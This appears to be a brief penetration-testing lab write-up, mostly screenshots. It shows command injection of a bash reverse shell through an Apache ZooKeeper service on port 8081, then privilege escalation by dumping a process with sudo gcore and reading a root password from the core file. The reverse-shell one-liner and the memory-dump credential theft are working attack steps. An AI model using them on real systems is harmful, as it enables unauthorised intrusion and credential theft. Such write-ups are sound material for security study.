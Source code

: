	![](attachment/c76e3ebd693ac05d983ca7d89871ce2c.png)

Checking port 8081

# 8081
We have apache zookeeper:
![](attachment/bfd1240a35ee84ff5b7b9c300e285c3c.png)

![](attachment/efb28e0e707030138ea4556ffd7228a7.png)
```
$(/bin/bash -i >& /dev/tcp/192.168.45.167/8000 0>&1)
```
Modifying it and commiting all we get a shell:![](attachment/10cb534afa00291388e03af09130f7da.png)
![](attachment/4a2e6f7b5cb0be200549639bca6c61d8.png)
We have sudo access for gcore

Checking pid for ssh programs running:
![](attachment/c593d848277d2d25844974484936b259.png)
This didn't work

Now checking linpeas output:
![](attachment/fbde6217231ec188a0a723ac945b9c88.png)
Now checking process id and doing gcore:
```
sudo gcore 548
```
Then:
```
strings core.548
```

We get a password for root.
![](attachment/266775e81546a0ea79e663691d9577eb.png)

Change to root user:
![](attachment/d7cbf88eed236aacdb04d015e867f3b9.png)